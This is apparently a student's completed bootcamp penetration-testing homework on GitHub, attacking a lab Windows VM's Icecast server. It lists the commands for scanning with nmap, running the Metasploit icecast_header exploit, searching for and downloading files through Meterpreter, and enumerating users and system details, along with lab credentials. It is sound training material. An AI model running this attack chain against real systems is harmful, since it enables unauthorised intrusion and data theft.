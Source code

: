 # Penetration-Test-Engagment
In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
​
- The CEO claims to have passwords that are long and complex and therefore unhackable.
​
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.
​
- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.
​
#### Setup 
- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 
​
#### Reminders
- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`
​
#### Deliverable
Once you complete this assignment, submit your findings in the following document: 
​
- [Report.docx](Resources/Report.docx)
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
    - Run the Nmap command that performs a service and version scan against the target.
      > Answer: nmap -sV 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture1.png)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   - Run the SearchSploit commands to show available Icecast exploits.
     > Answer: searchsploit icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture2.png)
​

3. Now that we know which exploits are available to us, let's start Metasploit: 
   - Run the command that starts Metasploit:
     > Answer: msfconsole

4. Search for the Icecast module and load it for use.
   - Run the command to search for the Icecast module:
     > Answer: search icecast
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture3.png)

   - Run the command to use the Icecast module:
       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.
     > Answer: use exploit/windows/http/icecast_header
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture4.png)

5. Set the `RHOST` to the target machine. 
   - Run the command that sets the `RHOST`:
     > Answer: set RHOSTS 192.168.0.20
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture5.png)

6. Run the Icecast exploit.
   - Run the command that runs the Icecast exploit.
     > Answer: run
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture6.png)

   - Run the command that performs a search for the `secretfile.txt` on the target
     > Answer: search –f  \*secretfile\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture7.png)

 7. You should now have a Meterpreter session open.
    - Run the command to performs a search for the `recipe.txt` on the target:
      > Answer: search –f  \*recipe\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture8.png)

  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:
      > Answer:  download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture9.png)

​

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
      > Answer:  run post/multi/recon/local_exploit_suggester
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture10.png)
​
 
#### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.​
  > Answer: run post/windows/gather/enum_logged_on_users
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture11.png)

B. Open a Meterpreter shell and gather system information for the target.
  > Answer: shell
  > Answer: ipconfig –all
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture12.png)

C. Run the command that displays the target's computer system information:
   > Answer: systeminfo
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture13.png)
​
---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

